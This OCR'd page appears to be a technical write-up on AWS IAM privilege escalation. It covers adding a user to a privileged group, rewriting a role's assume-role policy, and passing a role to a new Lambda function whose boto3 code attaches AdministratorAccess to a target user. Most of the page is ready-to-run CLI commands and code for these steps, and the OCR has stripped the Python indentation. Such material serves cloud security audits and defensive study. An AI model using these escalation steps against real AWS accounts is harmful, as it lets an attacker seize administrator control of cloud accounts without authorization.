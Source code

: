 ## Add a User to a Group

Add yourself to a privileged group with the iam:AddUserToGroup permission! Example:

```
aws iam add-user-to-group --group-name $TARGET_GROUP \
	--user-name $TARGET_USER
```

## Update a Role’s AssumeRolePolicyDocument

A user with _both_ the iam:UpdateAssumeRolePolicy and the sts:AssumeRole permission can update the assumer role policy document for any role, allowing them to assume it. Example:

```
aws iam update-assume-role-policy --role-name $TARGET_ROLE \
	--policy-document $ASSUME_ROLE_POLICY_JSON
```

It seems like this trick really only works if the user’s sts:AssumeRole permission is already quite broad.

## Pass a Role to a Lambda Function

Okay, now things are getting interesting. The attackin user need the iam:PassRole, lambda:CreateFunction, and lambda:InvokeFunction permissions. The idea is to pass a role (_any_ role they want) to a Lambda new Lambda function that is configured to exploit the permissions of that role.

For example, the following Python code will promote the target user to full admin access, assuming that the Lambda function is passed a role that permits it to attach policies.

```
import boto3

def lambda_handler(event, context):

client = boto3.client("iam")

response = client.attach_user_policy(
	UserName="TARGET_USER",
	PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
)

return response
```

This code can then be exploited using two AWS CLI commands:

```
# Create the Lambda function
#
aws lambda create-function --function-name $FUNCTION_NAME \
	--runtime python3.6 --role $LAMBDA_ROLE_ARN_TO_PASS \
	--handler $FUNCTION_NAME.lambda_handler --code $PATH_TO_PYTHON_CODE

# Invoke the Lambda function
#
aws lambda invoke --function-name $FUNCTION_NAME $OUTPUT_FILE
```
